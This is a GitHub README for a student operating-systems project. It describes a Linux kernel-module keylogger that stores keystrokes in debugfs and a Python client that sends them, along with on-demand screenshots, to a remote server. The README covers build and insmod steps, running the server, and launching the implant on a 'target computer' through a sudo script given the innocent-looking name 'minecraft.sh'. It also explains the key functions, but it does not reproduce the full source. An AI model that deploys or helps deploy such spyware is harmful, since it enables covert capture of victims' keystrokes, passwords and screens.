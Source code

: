 # simple-backdoor

A kernel module that captures key pressed from the keyboard and saves them to a file, using the ```debufgs``` library. This file is sent via socket every 10 seconds to a server, also present in this repository.

Using debugfs the backdoor is only available for as long as the computer remains on. Once turned off, the file will be immediately deleted. That's why, the file is stored in the ```/sys/kernel/debug/``` folder that only stores in RAM memory.

Another observation is regarding the connection via socket. The connection is only established for computers on the same network.

**DISCLAIMER:** this repository is a graduation work of the discipline of operating systems and has no unethical purposes.

## Table of contents
- [simple-backdoor](#simple-backdoor)
  - [Table of contents](#table-of-contents)
  - [Compilation](#compilation)
    - [Build](#build)
  - [Usage](#usage)
  - [Description of the functionality of the main functions](#description-of-the-functionality-of-the-main-functions)
    - [`backdoor.c`](#backdoorc)
    - [`client.py`](#clientpy)
    - [`server.py`](#serverpy)
  - [License](#license)
  - [Developer](#developer)

## Compilation
### Build
Clone the repository 

    # git clone https://github.com/MichelH4cker/simple-backdoor

and compile the kernel module with

    # make

Note that you need to have the linux kernel headers installed for your running kernel version.

To insert the module into the kernel, run:

    # insmod backdoor.ko
    OR
    # make load

To unload the module (and clear the logs), run:

    # rmmod backdoor.ko

To run the python programs just do
    
    # python3 server.py ip port

and

    # python3 client.py

where ip is the IP's server and port is the server port.
The client is set by defaut to IP 127.0.0.1 and port 8080.

## Usage

The correct mode of use happens as follows. First, you need to run the server on a remote computer. This server will be waiting for the connection of the client which, in this case, is the target computer of the backdoor. So, in a computer, run

    # python3 server.py ip port

where ip it's the ip of ther server and port is the port of the server.

Now, for the backdoored computer, things are a bit more difficult. First, you need to enter the client code (```client.py```) and write the IP address and port of the server so that the connection takes place perfectly. Second, at this time, this project does not yet address a practical way to run the program on another computer other than manually. Then go to the target computer and run the bash script as follows

    # sudo ./minecraft.sh

Note that you also need to know the admin password 😢. When the script is executed, the client will connect to the server and start uploading the keylogger. The sending will happen every 10 seconds and in the server terminal it is possible to see the strings received from the backdoor.

If you still have access to the target machine you can verify the file manually by typing the following command in the terminal

    # sudo cat /sys/kernel/debug/backdoor/keylogger

To check the module details:

```
# modinfo backdoor.ko
filename:       backdoor.ko
description:    A simple backdoor with keylogger to debugfs
author:         Michel Hecker Faria
license:        GPL
srcversion:     97D6507873340678492BA80
depends:
retpoline:      Y
name:           backdoor
vermagic:       5.17.5-76051705-generic SMP preempt mod_unload modversions
```

## Description of the functionality of the main functions 
### `backdoor.c`
In this file the most important function is the 

    void keycode_to_string(int keycode, int shift_is_pressed, char *buffer);

 function. When a keyboard interrupt occurs, an integer code is generated. This function is responsible for translating this entire code into understandable strings for us humans. In the development of this function, the question arose whether it was easier to perform the cast instead of mapping all the keys. We chose to use mapping because that way it was possible to translate the code into anything we wanted. For example, the 'ESC' key does not have a corresponding character to perform the cast. Mapping the keycodes we wrote that the entire code responsible for the esc key would be saved as string "\_ESC\_", which improves the keylogger.

 In the backdoor file, another functionality is important, which is to generate a file containing all the keys typed by the user. This functionality is found in the keyboard key interrupt callback function. It is very simple because there is already a reading and writing function 
    
    simple_read_from_buffer(buffer, len, offset, keys_buf, buf_pos);

### `client.py`
when executing the client's code, it is necessary to pass the cm argument which functionality will be exercised. If the keylogger argument is passed, the client will send all the keystrokes to the server. This is done by accessing the keylogger file generated by the kernel module. Therefore, the program will read the file and send the entire file and send. If the prtsc argument is passed, the client will wait for the print command given by the server. When the command is given, the client will perform the print via a terminal call using the scrot command.

### `server.py`
The server works as a multithreaded server. For the specific case of this program, only two clients will connect, and each one will have a different functionality, as previously explained. The 

    client_thread = threading.Thread(target=handle_clients, args=(client, client_id)) 

section starts a client thread. When a thread is started, the function 

    handle_clients(client, id)

is automatically executed. This function directs what the client is going to do based on your codes. As the keylogger is always run first (see the minecraft.sh script) so it is the first thread so it will always enter the first if

    if id == KEYLOGGER:
         handle_keylogger(client)
     elif id == PRINTSCREEN:
         handle_print_screen(client)
     else:
         print('[-] There is no function for this client')

The function related to receiving the data sent by the client executing the keylogger is the ```handle_keylogger(client)``` function, while the function responsible for receiving the data sent by the print screen client is the ```handle_print_screen(client)``` function. I believe that these two functions are very simple to understand since they both basically do the same thing: receive data and process it.

## License
<a href="https://github.com/jarun/googler/blob/master/LICENSE"><img src="https://img.shields.io/badge/license-GPLv2-yellow.svg?maxAge=2592000" alt="License" /></a>

## Developer
Copyright © 2023 [Michel Hecker Faria - 12609690](mailto:michel.hecker@usp.br) & [Vitor Nishimura Vian - 5255289](mailto:vitor.vian@usp.br) & [Guilherme Augusto Moreira - 12547281](mailto:guilherme_augusto@usp.br)
